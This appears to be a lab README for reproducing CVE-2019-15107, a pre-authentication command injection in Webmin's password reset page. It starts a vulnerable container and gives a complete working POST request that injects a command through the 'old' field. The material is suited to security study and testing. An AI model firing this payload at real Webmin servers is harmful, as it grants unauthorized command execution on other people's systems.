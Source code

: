 # Webmin Pre-Auth Remote Code Execution (CVE-2019-15107)

[中文版本(Chinese version)](README.zh-cn.md)

Webmin is a web-based system configuration tool for Unix-like systems. The vulnerability exists in the password reset page, which allows unauthenticated users to execute arbitrary commands through a simple POST request.

Referrers:

- https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html
- https://www.exploit-db.com/exploits/47230
- https://blog.firosolutions.com/exploits/webmin/

## Start Vulnerability Application

Start a vulnerable Webmin 1.910 through following command:

```
docker-compose up -d
```

After the environment is started, you can see the login page of Webmin at `https://your-ip:10000`.

## Vulnerability Reproduce

The payload of the reference links is incomplete. After reading the code in depth, I found that command can be executed only if the user parameter of the body doesn't exist before 1.920, upon 1.920, no limit.

In short, sending a following POST request to execute command `id`:

```
POST /password_change.cgi HTTP/1.1
Host: your-ip:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```

![](1.png)
